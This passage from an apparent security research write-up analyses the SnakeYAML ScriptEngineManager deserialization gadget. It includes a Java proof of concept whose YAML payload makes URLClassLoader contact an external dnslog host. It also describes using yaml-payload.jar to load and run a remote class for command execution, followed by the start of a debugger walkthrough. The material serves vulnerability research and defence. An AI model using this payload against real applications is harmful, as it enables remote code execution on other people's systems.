 ## Gadgets
### ScriptEngineManager
#### Vulnerability Demo
First reproduce the vulnerability, the `POC` is as follows:

```java
package org.h3rmesk1t.SnakeYaml;

import org.yaml.snakeyaml.Yaml;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/1 6:35 pm
 */
public class ScriptEngineManagerExploit {

    public static void main(String[] args) {

        String poc = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\
"http://hfme12.dnslog.cn\"]]]]\n";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```

You can see that the `dnslog` request is successfully obtained in the figure below, but it only detects whether the deserialization has been performed. If it needs to be used, it also needs to construct the code for the command execution.

<div align=center><img src="./images/8.png"></div>

For the scripts for the above command execution, you can refer to [yaml-payload.jar](https://github.com/artsploit/yaml-payload/), which implements the `ScriptEngineFactory` interface, and then fill in the commands that need to be executed in the static code block, package the project and mount it to the `web` side, deserialize it with `payload` and then request it to this location, implement `java.net.URLClassLoader` to call a remote class to execute the command.

<div align=center><img src="./images/9.png"></div>

<div align=center><img src="./images/10.png"></div>

#### Vulnerability Analysis
Set a breakpoint at `yaml.load`, follow up to `this.constructor.getSingleData`, and call `this.constructDocument`.

<div align=center><img src="./images/11.png"></div>

Follow up on `this.constructDocument`, which calls `this.constructObject` to get an `Object` object, follow up on the method, and further call `this.constructObjectNoCheck`.
